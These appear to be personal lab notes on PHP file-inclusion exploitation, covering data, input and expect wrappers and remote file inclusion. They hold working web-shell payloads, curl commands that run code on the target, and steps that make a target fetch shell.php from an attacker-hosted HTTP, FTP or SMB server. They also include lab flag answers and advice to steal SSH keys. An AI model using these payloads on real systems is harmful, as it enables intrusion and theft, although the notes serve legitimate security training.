 # Remote Code Execution

## PHP Wrappers

One easy and common method for gaining control over the back-end server is by enumerating user credentials and SSH keys, and then use those to login to the back-end server through SSH or any other remote session.

First we can check the `.ssh` directory in each user's home directory to grab their private key (`id_rsa`) and use it to SSH into the system.

***

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code if the (`allow_url_include`) setting is enabled in the PHP configurations

PHP conf Apache: `/etc/php/X.Y/apache2/php.ini`

PHP conf Nginx: `/etc/php/X.Y/fpm/php.ini` where `X.Y` is your install PHP version

```shell-session
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

`grep` for `allow_url_include ->`

```shell-session
ElFelixi0@htb[/htb]$ echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On
```

Now to gain RCE ->

```shell-session
echo '<?php system($_GET["cmd"]); ?>' | base64
```

Then with the base64 value we call the data wrapper:

```
http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id
```

Or in curl:

```shell-session
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

***

the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code but the difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data.

```shell-session
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

***

the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper allows us to directly run commands through URL streams

it needs to be manually installed and enabled on the back-end server so this time we need to `grep` for `expect`

```shell-session
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```

And if it's on , we can exploit this like this:

```shell-session
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

_**Try to gain RCE using one of the PHP wrappers and read the flag at /**_

```
curl "http://94.237.59.63:52729/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"
```

<figure><img src="../../../.gitbook/assets/image (1381).png" alt=""><figcaption></figcaption></figure>

```
<SNIP>%3D&cmd=ls%20-al"
```

<figure><img src="../../../.gitbook/assets/image (1382).png" alt=""><figcaption></figcaption></figure>

```
<SNIP>3D&cmd=ls%20-al%20/"
```

<figure><img src="../../../.gitbook/assets/image (1383).png" alt=""><figcaption></figcaption></figure>

```
curl "http://94.237.59.63:52729/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=cat%20/37809e2f8952f06139011994726d9ef1.txt"
```

## Remote File Inclusion (RFI)

if the vulnerable function allows the inclusion of remote URLs, we can&#x20;

1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host

Here are some functions that (if vulnerable) would allow RFI

| **Function**                 | **Read Content** | **Execute** | **Remote URL** |
| ---------------------------- | :--------------: | :---------: | :------------: |
| **PHP**                      |                  |             |                |
| `include()`/`include_once()` |         ✅        |      ✅      |        ✅       |
| `file_get_contents()`        |         ✅        |      ❌      |        ✅       |
| **Java**                     |                  |             |                |
| `import`                     |         ✅        |      ✅      |        ✅       |
| **.NET**                     |                  |             |                |
| `@Html.RemotePartial()`      |         ✅        |      ❌      |        ✅       |
| `include`                    |         ✅        |      ✅      |        ✅       |

A reliable way to determine whether an LFI vulnerability is also vulnerable to RFI is to `try and include a URL`, and see if we can get its content. We sould start with [http://127.0.0.1:80/index.php](http://127.0.0.1/index.php)

```
http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php
```

<figure><img src="../../../.gitbook/assets/image (1384).png" alt=""><figcaption><p>vulnerable to RFI</p></figcaption></figure>

If the back-end server hosted any other local web applications (e.g. port `8080`), then we may be able to access them through the RFI vulnerability by applying SSRF

### Remote Code Execution with RFI

```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```

Now we host our payload:

```shell-session
sudo python3 -m http.server <LISTENING_PORT>
```

For the port, `80` or `443`, may be whitelisted in case the vulnerable web application has a firewall preventing outgoing connections

Now to use our shell.php ->

```
http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
```

<figure><img src="../../../.gitbook/assets/image (1385).png" alt=""><figcaption></figcaption></figure>

we may also host our script through the FTP protocol

```shell-session
sudo python -m pyftpdlib -p 21
```

and the request would be ->

```
http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
```

By default, PHP tries to authenticate as an anonymous user. If the server requires valid authentication, then the credentials can be specified in the URL, as follows:

```shell-session
 curl 'http://<SERVER_IP>:<PORT>/index.php?language=ftp://user:pass@localhost/shell.php&cmd=id'
```

If the vulnerable web application is hosted on a **Windows** **server** (which we can tell from the server version in the HTTP response headers), then we do not need the `allow_url_include` setting to be enabled for RFI exploitation, we can use SMB protocol because Windows treats files on remote SMB servers as normal files

```shell-session
impacket-smbserver -smb2support share $(pwd)
```

and the request would look like ->

```
http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
```

<figure><img src="../../../.gitbook/assets/image (1386).png" alt=""><figcaption></figcaption></figure>

_**Attack the target, gain command execution by exploiting the RFI vulnerability, and then look for the flag under one of the directories in /**_

```
sudo pip install pyftpdlib
sudo python -m pyftpdlib -p 21
```

And the request will be:

```
http://10.129.196.211/index.php?language=ftp://10.10.15.34/shell.php&cmd=id
```

<figure><img src="../../../.gitbook/assets/image (1388).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (1389).png" alt=""><figcaption></figcaption></figure>
